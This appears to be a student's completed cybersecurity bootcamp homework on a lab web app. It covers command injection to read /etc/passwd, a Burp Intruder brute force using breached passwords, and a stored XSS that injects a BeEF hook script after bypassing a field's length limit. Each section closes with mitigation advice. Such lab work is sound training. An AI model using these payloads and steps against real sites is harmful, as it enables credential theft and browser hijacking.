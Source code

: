 # Unit 15 Homework

---

## Web Application 1: *Your Wish is My Command Injection*

Now that you have determined that Replicants new application is vulnerable to command injection, you are tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:
   
   - `/etc/passwd`
   
   - `/etc/hosts`
  
   **Hint:** Try testing out a command directly on the command line to help design your payload.

**Deliverable**: Take a screen shot confirming that this exploit was successfully executed and provide 2-3 sentences outlining mitigation strategies. 

![](Images/cmd_injection.1.png)
![](Images/cmd_injection.2.png)

**Mitigation:**  Sanitize user input. Limit the input to 15 characters and only accept something that resembles an IPv4 address. 

## Web Application 2: *A Brute Force to Be Reckoned With*

Years ago, Replicants had a systems breach and several administrators passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. Your manager is concerned that one of the administrators that accesses this new web application is using one of these compromised passwords. Therefore, there is a risk that the malicious hacker can use these passwords to access an administrator's account and view confidential data.

   - Use the web application tool **Burp Suite**, specifically the **Burp Suite Intruder** feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application. 

   - You've been provided with a list of administrators and the breached passwords:

     - List of Administrators
     - Breached list of Passwords

**Deliverable**: Take a screen shot confirming that this exploit was successfully executed and provide 2-3 sentences outlining mitigation strategies.

![](Images/bruteforce.png)

**Mitigation:**  Recognize and slow down repeated signon attempts from the same IP (regardless if it's for the same user or not).  Add a captcha between login attempts. If not already in use, consider adding key lengthening (e.g. PBKDF2) or increasing the iteration count. While not strictly an anti-brute force measure, it'll take a little longer on the server to validate each login attempt. After a certain threshold, refuse to accept additional attempts from the same IP (e.g. fail2ban).

### Web Application 3: *Where's the BeEF?*

Now that you know how to use the BeEF tool, you'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

   - Task details:
     - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
      - **Hint:** Try right-clicking and selecting "Inspecting the Element".
    
   - Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:
     
     - Social Engineering >> Pretty Theft
     ![](Images/beef1a.png)
     
     - Social Engineering >> Fake Notification Bar
    ![](Images/beef3.png)

     - Host >> Get Geolocation (Third Party)
    ![](Images/beef5.png)  
    `Redacted some detail.`

**Deliverable**: Take a screen shot confirming that this exploit was successfully executed and provide 2-3 sentences outlining mitigation strategies.

**Mitigation:**  Sanitize user input. Limit which HTML tags are permitted (if any).  The HTML code for the textarea: 
`<textarea name="mtxMessage" cols="50" rows="3" maxlength="50"></textarea>` 

intends to limit the input to 50 characters over 3 lines (rows). With the Inspect Element option, the length was increased to accomodate the XSS payload.  Another migitation option is to truncate strings to 50 characters.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
